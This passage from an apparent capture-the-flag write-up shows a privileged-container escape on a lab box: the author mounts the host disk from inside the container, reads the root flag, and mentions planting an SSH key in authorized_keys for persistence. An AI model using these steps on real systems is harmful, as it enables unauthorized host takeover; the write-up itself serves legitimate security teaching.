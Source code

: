 Instead of running commands, I could also mount the host filesystem.
`lsblk` shows the devices, and `sda2` looks like the main disk:



    root@gitlab:/# lsblk
    NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
    loop1    7:1    0 71.3M  1 loop 
    loop4    7:4    0 31.1M  1 loop 
    loop2    7:2    0 55.5M  1 loop 
    loop0    7:0    0 55.4M  1 loop 
    sda      8:0    0   20G  0 disk 
    |-sda2   8:2    0   18G  0 part /var/log/gitlab
    |-sda3   8:3    0    2G  0 part [SWAP]
    `-sda1   8:1    0    1M  0 part 
    loop5    7:5    0 31.1M  1 loop 
    loop3    7:3    0 71.4M  1 loop 



I'll mount it, and now have access to the host filesystem:



    root@gitlab:/# mount /dev/sda2 /mnt 
    root@gitlab:/# ls /mnt/
    bin  boot  cdrom  dev  etc  home  lib  lib32  lib64  libx32  lost+found  media  mnt  opt  proc  root  run  sbin  snap  srv  sys  tmp  usr  var



I can get the flag:



    root@gitlab:/# cat /mnt/root/root.txt
    b7f98681************************



There's also an SSH key already there, or I could write my own into the
`authorized_keys` file.


[Digging into cgroups »](/digging-into-cgroups.md)






